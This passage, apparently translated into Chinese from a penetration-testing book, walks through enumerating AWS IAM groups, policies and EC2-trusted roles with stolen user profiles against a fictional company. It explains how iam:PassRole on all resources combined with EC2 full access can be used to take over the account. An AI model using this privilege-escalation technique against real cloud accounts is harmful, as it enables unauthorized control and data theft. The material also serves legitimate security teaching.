 ```
root@Point1:~/# **aws iam list-groups --profile=leslie**
"GroupName": "spark-s3",

root@Point1:~/# **aws iam list-groups --profile=marc**
"GroupName": "spark-s3",

root@Point1:~/# **aws iam list-groups --profile=camellia**
"GroupName": "spark-debug",
"GroupName": "spark-s3",

`--snip--`
```

等一下。Camellia 属于一个名为 *spark-debug* 的附加组。让我们仔细看看这个组所附加的策略：

```
root@Point1:~/# **aws iam list-attach-group-policies --group-name spark-debug --profile=camellia**

"PolicyName": "AmazonEC2FullAccess",
"PolicyName": "iam-pass-role-spark",
```

太好了。Camellia 在这里可能是负责维护和运行 Spark 集群的人，因此她被授予了这两个策略。EC2 完全访问权限为她打开了 450 多种 EC2 操作的可能性，从启动实例到创建新的 VPC、子网，几乎涵盖了与计算服务相关的所有操作。

第二个策略是定制的，但我们可以轻松猜测它意味着什么：它允许我们将角色分配给 EC2 实例。我们查询最新版本的策略文档来确认我们的猜测：

```
# get policy version
root@Point1:~/# **aws iam get-policy \**
**--policy-arn arn:aws:iam::983457354409:policy/iam-pass-role \**
**--profile camellia**

"DefaultVersionId": "v1",

# get policy content
root@Point1:~/# **aws iam get-policy-version \**
**--policy-arn arn:aws:iam::983457354409:policy/iam-pass-role \**
**--version v1 \**
**--profile camellia**

"Action":"iam:PassRole",
1 "Resource": "*"
`--snip--`
```

GP 可能没有完全意识到，但通过 IAM 的`PassRole`操作，他们已经隐性地赋予亲爱的 Camellia——以及通过她，*我们*——对他们的 AWS 账户完全的控制权。`PassRole`是一个强大的权限，允许我们将角色分配给实例。任何角色 1，甚至是管理员角色。凭借`EC2 完全访问`，Camellia 还可以管理 EC2 实例，启动机器，给它加上管理员角色，然后接管 AWS 账户。

让我们探讨一下作为 Camellia 的我们可以传递给 EC2 实例的角色选项。唯一的限制是该角色需要在其信任策略中包含*ec2.amazonaws.com*：

```
root@Point1:~/# **aws iam list-roles --profile camellia \**
**| jq -r '.Roles[] | .RoleName + ", " + \**
**.AssumeRolePolicyDocument.Statement[].Principal.Service' \**
**| grep "ec2.amazonaws.com"**
`--snip--`
jenkins-cicd, ec2.amazonaws.com
jenkins-jobs, ec2.amazonaws.com
rundeck, ec2.amazonaws.com
spark-master, ec2.amazonaws.com
```
